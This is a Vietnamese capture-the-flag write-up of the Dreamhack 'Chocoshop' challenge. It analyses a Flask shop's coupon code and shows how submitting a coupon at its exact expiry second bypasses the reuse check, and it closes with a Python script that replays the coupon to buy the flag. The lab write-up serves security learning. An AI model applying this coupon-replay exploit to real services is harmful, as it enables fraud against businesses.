

# Logic Code

**Tên challenge:**  Chocoshop

**Link challenge:** [Here](https://dreamhack.io/wargame/challenges/106)

**Tác giả challenge:** Dreamhack

**Mục tiêu challenge:** Dream received a coupon for Pepero's purchase from Tiori Confectionery for Pepero Day.
But our goal is FLAG! But hey, I can't buy FLAG because it's too expensive...
I wanted to get a coupon issued multiple times, but this isn't possible either. According to an insider, the logic for checking used coupons is weak, so help Dream buy FLAG!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge sẽ cung cấp cho ta 1 Source Code và Link Website, trước tiên ta sẽ đi phân tích Source Code trước:

1. `secret.py`:
```python
from os import urandom
JWT_SECRET = urandom(32)
try:
    FLAG = open('flag.txt', 'r').read()
except:
    FLAG = 'DH{zzzzzmdfklamsdklfmasdklfmasdklfl}'
```
File này cụ thể là tạo ra file `flag.txt`.

2. `app.py`, ta sẽ phân tích từng hàm:
```python
def get_session():
    def decorator(function):
        @wraps(function)
        def wrapper(*args, **kwargs):
            uuid = request.headers.get('Authorization', None)
            if uuid is None:
                raise BadRequest("Missing Authorization")
 
            data = r.get(f'SESSION:{uuid}')
            if data is None:
                raise Unauthorized("Unauthorized")
 
            kwargs['user'] = loads(data)
            return function(*args, **kwargs)
        return wrapper
    return decorator
```
<u>**Giải thích:**</u>
* Đây là hàm xác thực Session của người dùng.
* Hàm kiểm tra giá trị `Authorization` từ HTTP Header GET Request nếu `Authorization` không tồn tại hoặc không có giá trị thì sẽ trả về `Bad Request`. 
* Ngược lại nếu `Authorization` hợp lệ thì dữ liệu Session sẽ được lấy từ Redis và xác thực cho người dùng.
```python
@app.route('/flag/claim')
@get_session()
def flag_claim(user):
    if user['money'] < FLAG_PRICE:
        raise BadRequest('Not enough money')
 
    user['money'] -= FLAG_PRICE
    return jsonify({'status': 'success', 'message': FLAG})
```
<u>**Giải thích:**</u>
* Đây là hàm mua `Flag`.
* Hàm kiểm tra xem tiền của người dùng `user['money']` có nhỏ hơn giá cờ `FLAG_PRICE` hay không. 
* Nếu không, nó sẽ trả về `Bad Request` với thông báo `Not enough money` cho khách hàng. 
* Ngược lại, nếu bằng hoặc lớn hơn giá cờ, giá cờ sẽ được trừ vào tiền của người dùng. Sau đó, nó trả về nội dung của `Flag`.
```python
@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')
 
    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')
 
    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')
 
    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")
 
 
    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')
 
        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```
<u>**Giải thích:**</u>
* Đây là hàm `Submit Coupon`.
* Đầu tiên, nó kiểm tra giá trị `coupon` trong HTTP Header GET Request.
* Nếu có tồn tại giá trị `coupon` thì hàm sẽ giải mã bằng `jwt.decode` với thuật toán `HS256`. Nếu giá trị không hợp lệ nó sẽ trả về `Invalid coupon`.
* Ngược lại, nếu giá trị hợp lệ thì ứng dụng sẽ kiểm tra thời gian hết hạn của `coupon` thông qua việc xác minh thời gian hiện tại với thời gian hết hạn nằm trong giá trị `coupon` sau khi giải mã `JWT`. Nếu thời gian hiện tại lớn hơn thời gian hết hạn của `coupon` thì nghĩa là `coupon` đã hết hạn và trả về `Bad Request` với nội dung `Coupon expired!`.
* Tiếp đến là kiểm tra thời gian `Submit Coupon` giữa các lần kế nhau của người dùng, mục đích là ngăn người dùng `Submit Coupon` nhiều lần trong một khoảng thời gian nhất định.
* Cuối cùng kiểm tra xem `Coupon` đã được sử dụng chưa và nếu `Coupon` đã được sử dụng thì trả về `Bad Request`.
* Nếu `Coupon` chưa được sử dụng ( `used_coupon` ) thì tiếp tục kiểm tra xem `uuid` của `user` có khớp với `user` trên `coupon` hay không. Nếu khớp thì đặt thời gian hết hạn của `used_coupon` dựa trên thời gian hết hạn của `coupon` và tăng tiền của người dùng bằng số tiền `coupon`.
```
@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')
 
    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})
```
<u>**Giải thích:**</u>
* Đây là hàm `Claim Coupon`, tóm lại là hàm này có chức năng sinh ra `Coupon` nhưng mỗi user chỉ sinh ra được Coupon 1 lần duy nhất và không thể sinh ra Coupon lần 2 vì biến `user['coupon_claimed']` sẽ được set thành `True` sau khi bạn claim ra `Coupon` lần đầu tiên và mỗi lần bạn muốn claim ra Coupon thì biến này sẽ được kiểm tra, nếu là `True` thì sẽ không sinh ra `Coupon`.
```
@app.route('/session')
def make_session():
    uuid = uuid4().hex
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(
        {'uuid': uuid, 'coupon_claimed': False, 'money': 0}))
    return jsonify({'session': uuid})
 
 
@app.route('/me')
@get_session()
```
<u>**Giải thích:**</u>
* `/session` dùng để tạo session mới
* `/me`: Trả về thông tin người dùng của Session hiện tại.

Ok vậy là phân tích xong Source Code, bây giờ chúng ta sẽ đi dùng thử Website để hiểu rõ hơn.

**B2:** Khi mới vào trang Web thì ứng dụng cung cấp cho ta 1 nút bấm lấy Session như sau:

Sau khi ta Click vào thì trang Web chuyển hướng ta sang `/me` và Session được hiện lên ở góc phải màn hình


Lúc bấy giờ, thì ta có thông tin như sau trong gói tin `/me`:
```
{"coupon_claimed":false,"money":0,"uuid":"9d4354647aaa43b19ec36f86aebed67b"}
```
Ở trang `SHOP` thì ta có thể chọn mua 1 trong 2 sản phẩm sau:


Và ta có thể nhận được tiền thông qua `MYPAGE` bằng cách đầu tiên nhấn nút `Claim`, trang Web sẽ sinh ra Coupon và ta lấy Coupon đó bỏ vào ô `Coupon Submit` và Submit rồi ta sẽ được tiền.



Lúc này, `/me` sẽ trả về thông tin sau:
```
{"coupon_claimed":true,"money":1000,"uuid":"9d4354647aaa43b19ec36f86aebed67b"}
```
Nếu ta tiếp tục nhấn Claim Coupon vừa rồi thì sẽ nhận được thông báo:
```
400 Bad Request: You already claimed the coupon!
```
Nếu bạn tiếp tục nhấn Submit Coupon nhiều lần liên tục thì sẽ nhận được thông báo:
```
400 Bad Request: Rate limit reached!, You can submit the coupon once every 10 seconds.
```
Nếu bạn đợi 1 lúc lâu rồi Submit Coupon lại thì sẽ nhận được thông báo:
```
400 Bad Request: Coupon expired!
```
Sau khi kiểm tra lại code thì ta biết được hạn sử dụng của `Coupon` là 45 giây, do dòng code sau khai báo:


Tóm lại, nếu ta Submit Coupon trong khoảng từ 10 giây đến 45 giây, ứng dụng sẽ trả về thông báo:
```
400 Bad Request: You already claimed the coupon!
```

<u>**Tổng hợp lại:**</u>
1. Coupons chỉ được `claim` một lần duy nhất.
2. Coupon hết hạn sau 45 giây nếu không Submit.
3. Khi Submit coupon, một khóa `used_coupon` sẽ được tạo ra để đánh dấu coupon này đã được sử dụng và `used_coupon` sẽ hết hạn sau tối đa 45 giây.
4. Coupon có khóa `used_coupon` không thể gửi lại.
5. Khoảng cách tối thiểu giữa hai lần gửi là 10 giây.

Vậy thì làm sao để khai thác được Challenge này đây ?

**Trả lời:** Nếu như ta đọc lại đoạn code chỗ này thì sẽ thấy Logic của Code có vấn đề:
```
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```
* Nhìn vào dòng đầu tiên `if coupon['expiration'] < int(time())`, như ta đã biết `coupon['expiration']` sẽ có giá trị là thời điểm mà ta Claim Coupon rồi cộng thêm 45 giây, còn hàm `time()` chính là thời gian hiện tại.

**VD:** Nếu ta Claim Coupon ở thời gian: `10000` thì `coupon['expiration']` sẽ bằng `10045` và giả sử hàm `time()` lấy giá trị thời gian hiện tại là `10030`, thế thì câu điều kiện if trên sẽ không được thực hiện. Vấn đề cũng xuất phát từ đây, nếu hàm `time()` trả về giá trị `10045` thì câu if trên cũng không được thực hiện và ta có thể vượt qua nó, và điều quan trọng nữa là `10045` chính là thời gian hết hạn của `used_coupon`. Từ thời gian thực thi câu if dòng 1 cho đến câu điều kiện kiểm tra `used_coupon` có còn tồn tại không `if r.setnx(used_coupon, 1):` thì khoảng thời gian đó đã làm cho `used_coupon` hết hạn, từ đó ta có thể vượt qua kiểm tra điều kiện `used_coupon` và ứng dụng sẽ tiến hành cấp tiền cho ta.

=> Về cơ bản ta có thể lợi dụng thời điểm giây 45 để vượt qua cơ chế kiểm tra không chặt chẽ của chương trình và từ đó có thể sử dụng lại `coupon`.

Để khai thác lỗ hổng trên, ta có thể dùng code sau:
```
import requests
import json
import time
 
url = "http://host3.dreamhack.games:24503/" # Change this
session_id = "77a8e91a41904fc19497a8a3ed0515f9" # Change this
 
def claim_coupon(session):
    headers = {"Authorization": session}
    response = requests.get(url + "coupon/claim", headers=headers)
    if response.status_code == 200:
        coupon = json.loads(response.text)["coupon"]
        print("Coupon claimed successfully")
        print("Coupon:", coupon)
        return coupon
    else:
        raise Exception("Failed to claim coupon")
 
def submit_coupon(session, coupon):
    headers = {"Authorization": session, "coupon": coupon}
    
    response = requests.get(url + "coupon/submit", headers=headers)
    print("First coupon submit response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to submit first coupon")
 
    print("Waiting for exactly 45 seconds...")
    time.sleep(45)
    
    response = requests.get(url + "coupon/submit", headers=headers)
    print("Second coupon submit response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to submit second coupon")
 
def claim_flag(session):
    headers = {"Authorization": session}
    response = requests.get(url + "flag/claim", headers=headers)
    print("Flag claim response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to claim flag")
    return response.text
 
if __name__ == "__main__":
    try:
        
        session = session_id
 
        coupon = claim_coupon(session)
 
        submit_coupon(session, coupon)
 
        flag = claim_flag(session)
        print("Flag:", flag)
    except Exception as e:
        print("An error occurred:", str(e))
```


=> Ta đã đọc được `Flag`.